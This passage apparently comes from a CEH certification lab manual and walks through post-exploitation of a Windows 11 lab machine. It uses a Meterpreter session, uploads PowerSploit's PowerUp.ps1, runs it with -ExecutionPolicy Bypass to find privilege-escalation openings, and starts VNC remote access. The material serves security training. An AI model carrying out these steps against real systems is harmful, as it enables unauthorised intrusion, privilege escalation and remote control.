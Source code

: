 19. The **Open File - Security Warning** window appears; click **Run**.
20. Leave the **Windows 11** machine running, so that the **Test.exe** file runs in the background and click **CEHv12 Parrot Security** to

### switch to the Parrot Security machine. 


21. Observe that one session has been created or opened in the **Meterpreter shell** , as shown in the screenshot.
22. Type **sysinfo** and press **Enter** to verify that you have hacked the targeted **Windows 11**.

```
Note: If the Meterpreter shell is not automatically connected to the session, type sessions -i 1 and press Enter to open a session in
Meterpreter shell.
```
### 


23. Now, type **upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1** and press **Enter**. This command uploads the
    PowerSploit file ( **PowerUp.ps1** ) to the target system’s present working directory.

```
Note: PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege
escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate
common elevation methods for a target system.
```
### 


24. Type **shell** and press **Enter** to open a shell session. Observe that the present working directory points to the **Downloads** folder in
    the target system.

### 


25. Type **powershell -ExecutionPolicy Bypass -Command “. .\PowerUp.ps1;Invoke-AllChecks”** and press **Enter** to run the
    **PowerUp.ps1** file.

```
Note: Ensure that you have added a space between two dots after -Command “.[space].. For a better understanding refer to the
screenshot after step 25.
```
26. A result appears, displaying **Check** and **AbuseFunction** as shown in the screenshot.

```
Note: Attackers exploit misconfigured services such as unquoted service paths, service object permissions, unattended installs,
modifiable registry autoruns and configurations, and other locations to elevate access privileges. After establishing an active session
using Metasploit, attackers use tools such as PowerSploit to detect misconfigured services that exist in the target OS.
```
27. Now, type **exit** and press **Enter** to revert to the **Meterpreter** session.
28. Now, exploit VNC vulnerability to gain remote access to the **Windows 11** machine. To do so, type **run vnc** and press **Enter**.
